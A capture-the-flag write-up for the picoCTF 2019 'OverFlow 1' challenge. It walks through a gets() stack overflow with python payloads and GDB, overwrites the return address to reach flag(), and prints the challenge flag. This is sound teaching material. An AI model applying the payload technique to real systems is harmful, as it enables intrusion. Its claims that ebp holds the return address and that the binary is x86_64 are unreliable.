 # PicoCTF19 OverFlow 1

## Challenge

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/8b7521756bddb2cce5c14fd2b60cd354/vuln)? You can find it in /problems/overflow-1 on the shell server. [Source](https://2019shell1.picoctf.com/static/8b7521756bddb2cce5c14fd2b60cd354/vuln.c).

## Hints

Take control that return address

Make sure your address is in Little Endian.

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/overflow-1$ ls -al
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 21:51 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-1_3    42 Sep 28 21:51 flag.txt
-rwxr-sr-x   1 hacksports overflow-1_3  7532 Sep 28 21:51 vuln
-rw-rw-r--   1 hacksports hacksports     742 Sep 28 21:51 vuln.c
```

Let's view `vuln.c`

```
samson@pico-2019-shell1:/problems/overflow-1$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

As expected, there is a function that prints the flag but it's never explicitly called.

The program takes a string and attempts to jump to that address. But hey, since this is an overflow question let's just give the program a bunch of garbage and see what happens.

```bash
samson@pico-2019-shell1:/problems/overflow-1$ ./vuln
Give me a string and lets see what happens: 

Woah, were jumping to 0x8048705 !
samson@pico-2019-shell1:/problems/overflow-1$ ./vuln
Give me a string and lets see what happens: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Woah, were jumping to 0x41414141 !
Segmentation fault (core dumped)
```

Hmm: `0x41414141`. If you're familiar with the [ASCII Table](https://en.wikipedia.org/wiki/ASCII), `A` is `41` in hexadecimal.

So it looks like we overwrite some instructions with our input. Let's find the minimal amount of `A`'s required to change the jump address.

```bash
samson@pico-2019-shell1:/problems/overflow-1$ echo $(python -c "print 'A'*77") | ./vuln
Give me a string and lets see what happens:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Woah, were jumping to 0x8040041 !
Segmentation fault (core dumped)
```

Notice how with no input the value is `0x8048705` but with 77 `A`'s, it's `0x8040041`.

You can see the first `41` is at the end. This is due to `x86_64` working in little endian mode.

So basically this overflow seems like we might have to overwrite the address with the address of the flag and in order to do that we first need to figure out which memory address the flag function is located at and we can do that with GDB.

```bash
samson@pico-2019-shell1:/problems/overflow-1$ gdb ./vuln 
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) x flag
0x80485e6 <flag>:       0x53e58955
(gdb) q
```

There it is at memory address `0x80485e6`.

Let's try working that into the address:

```bash
samson@pico-2019-shell1:/problems/overflow-1$ echo $(python -c "print 'A'*77+'\xe6'")  | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x800e641 !
Segmentation fault (core dumped)
samson@pico-2019-shell1:/problems/overflow-1$ echo $(python -c "print 'A'*76+'\xe6'") | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80400e6 !
Segmentation fault (core dumped)
samson@pico-2019-shell1:/problems/overflow-1$ echo $(python -c "print 'A'*76+'\xe6\x85\x04\x08'") | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a21b59fb}Segmentation fault (core dumped)
```
## More detailed explanation

So why did that work? We won't have a nice function that tells us the return address all the time.

In x86 assembly, the memory address of where a program is returning to is held in the `ebp` register, otherwise known as the base pointer. So let's try to see if we can match the register value to what the function prints out for us

```bash
samson@pico-2019-shell1:/problems/overflow-1$ ./vuln 
Give me a string and lets see what happens: 
picoCTF
Woah, were jumping to 0x8048705 !
samson@pico-2019-shell1:/problems/overflow-1$ gdb ./vuln
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
... <redacted>

(gdb) r < <(python -c 'print("A"*64)')
Starting program: /problems/overflow-1/vuln < <(python -c 'print("A"*64)')
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
[Inferior 1 (process 2891586) exited normally]

(gdb) r < <(python -c 'print("A"*76+"\xe6\x85\x04\x08")')
Starting program: /problems/overflow-1/vuln < <(python -c 'print("A"*76+"\xe6\x85\x04\x08")')
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
[Inferior 1 (process 2891439) exited normally]
```

Just verifying we can send in input through GDB.

```bash
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804865f <+0>:     push   %ebp
   0x08048660 <+1>:     mov    %esp,%ebp
   0x08048662 <+3>:     push   %ebx
   0x08048663 <+4>:     sub    $0x44,%esp
   0x08048666 <+7>:     call   0x8048520 <__x86.get_pc_thunk.bx>
   0x0804866b <+12>:    add    $0x1995,%ebx
   0x08048671 <+18>:    sub    $0xc,%esp
   0x08048674 <+21>:    lea    -0x48(%ebp),%eax
   0x08048677 <+24>:    push   %eax
   0x08048678 <+25>:    call   0x8048430 <gets@plt>
   0x0804867d <+30>:    add    $0x10,%esp
   0x08048680 <+33>:    call   0x8048714 <get_return_address>
   0x08048685 <+38>:    sub    $0x8,%esp
   0x08048688 <+41>:    push   %eax
   0x08048689 <+42>:    lea    -0x17f9(%ebx),%eax
   0x0804868f <+48>:    push   %eax
   0x08048690 <+49>:    call   0x8048420 <printf@plt>
   0x08048695 <+54>:    add    $0x10,%esp
   0x08048698 <+57>:    nop
   0x08048699 <+58>:    mov    -0x4(%ebp),%ebx
   0x0804869c <+61>:    leave  
   0x0804869d <+62>:    ret    
End of assembler dump.
```

We know the `call   0x8048430 <gets@plt>` is where the assembly code gets user input so lets view the important bits of the stack change as we step through it after setting a breakpoint right before it.

```bash
(gdb) b* 0x08048678
Breakpoint 1 at 0x8048678
(gdb) r < <(python -c 'print("A"*76+"\xe6\x85\x04\x08")')
Starting program: /problems/overflow-1/vuln < <(python -c 'print("A"*76+"\xe6\x85\x04\x08")')
Give me a string and lets see what happens: 

Breakpoint 1, 0x08048678 in vuln ()
(gdb) info frame
Stack level 0, frame at 0xffde0df0:
 eip = 0x8048678 in vuln; saved eip = 0x8048705
 called by frame at 0xffde0e20
 Arglist at 0xffde0de8, args: 
 Locals at 0xffde0de8, Previous frame's sp is 0xffde0df0
 Saved registers:
  ebx at 0xffde0de4, ebp at 0xffde0de8, eip at 0xffde0dec
```

Note the output: `saved eip = 0x8048705`. As we know the EIP is the instruction pointer that the allows to the CPU to remember where to jump to after returning from a function.

Let's step through with the `next instruction` command and watch what happens after the program receives our input.

```bash
(gdb) ni
0x0804867d in vuln ()
(gdb) i f
Stack level 0, frame at 0xffde0df0:
 eip = 0x804867d in vuln; saved eip = 0x80485e6
 called by frame at 0x41414149
 Arglist at 0xffde0de8, args: 
 Locals at 0xffde0de8, Previous frame's sp is 0xffde0df0
 Saved registers:
  ebx at 0xffde0de4, ebp at 0xffde0de8, eip at 0xffde0dec
```

There we go. We overwrote the old value of the eip and now the program should technically jump wherever we want, in our case the address of the flag.

## Flag

`picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a21b59fb}`